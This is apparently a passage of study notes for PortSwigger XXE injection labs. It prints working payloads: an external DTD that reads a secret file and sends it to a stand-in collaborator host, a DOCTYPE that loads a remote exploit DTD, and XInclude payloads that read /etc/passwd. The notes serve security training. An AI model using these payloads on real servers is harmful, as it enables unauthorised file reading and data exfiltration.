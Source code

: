     ```xml
    <!ENTITY % file SYSTEM "file:///home/carlos/secret">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.net/?x=%file;'>">
    %eval;
    %exfil;
    ```

    > Modify the file upload XML body of the request before sending to the target server.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
    <users>
        <user>
            <username>Carl Toyota</username>
            <email>carlos@hacked.net</email>
        </user>    
    </users>
    ```
*   [ ] [**Exploiting XInclude to retrieve files**](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

    > File upload or user import function on web target use XML file format. This can be vulnerable to XML external entity (XXE) injection.

    #### Identify XML

    > Possible to find XXE attack surface in requests that do not contain any XML.

    > To Identify XXE in not so obvious parameters or requests, require adding the below and URL encode the & ampersand symbol to see the response.

    `%26entity;`

    > Below the server respond with **indication that XML Entities are not allowed for security reasons.**

    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56f1b87b-65b9-44d3-bf32-80c5dcffd914/Untitled.png)

    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    URL encode the XXE payload before sending.

    <foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>
    ```
*   [ ] [PortSwigger Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

    #### XXE via SVG Image upload

    > Identify image upload on the blog post function that accept svg images, and observe that the avatars already on blog source code is svg extensions.

    > The content of the image.svg file uploaded:

